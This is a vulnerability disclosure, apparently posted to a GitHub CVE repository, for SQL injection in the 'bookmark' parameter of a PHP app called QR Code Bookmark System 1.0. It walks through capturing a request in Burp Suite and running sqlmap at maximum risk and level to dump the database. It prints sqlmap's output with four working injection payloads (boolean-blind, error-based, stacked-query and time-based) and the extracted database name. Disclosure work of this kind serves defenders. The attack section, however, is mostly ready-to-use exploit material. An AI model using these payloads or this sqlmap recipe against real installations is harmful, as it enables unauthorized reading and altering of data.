 # QR Code Bookmark System - SQL Injection
+ **Exploit Title:** QR Code Bookmark System - SQL Injection
+ **Date:** 2024-06-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17286/qr-code-bookmark-system-using-php-and-mysql-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=17286&title=QR+Code+Bookmark+System+Using+PHP+and+MySQL+with+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number

## Description:
QR Code Bookmark System allows SQL Injection via the 'bookmark' parameter in "http://localhost/qr-code-bookmark/endpoint/delete-bookmark.php?bookmark=1". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/qr-code-bookmark/"
+ Then click delete button.
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /qr-code-bookmark/endpoint/delete-bookmark.php?bookmark=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'bookmark' parameter to dump the database.
```
sqlmap -r r.txt -p bookmark --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
------
Parameter: bookmark (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: bookmark=1' RLIKE (SELECT (CASE WHEN (9672=9672) THEN 1 ELSE 0x28 END))-- CCJi

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: bookmark=1' AND EXTRACTVALUE(4273,CONCAT(0x5c,0x7178707671,(SELECT (ELT(4273=4273,1))),0x716a626b71))-- poGU

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: bookmark=1';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: bookmark=1' AND (SELECT 4432 FROM (SELECT(SLEEP(5)))oKhu)-- gmOs
---
[08:17:42] [INFO] testing MySQL
[08:17:42] [INFO] confirming MySQL
[08:17:42] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[08:17:42] [INFO] fetching current database
[08:17:42] [INFO] resumed: 'qr_bookmark_db'
current database: 'qr_bookmark_db'
```
+ current database: `qr_bookmark_db`

![Ekran görüntüsü 2024-04-14 180355](https://github.com/BurakSevben/CVEs/assets/117217689/ddbf51ec-0adc-4769-b2e1-26822d1715de)
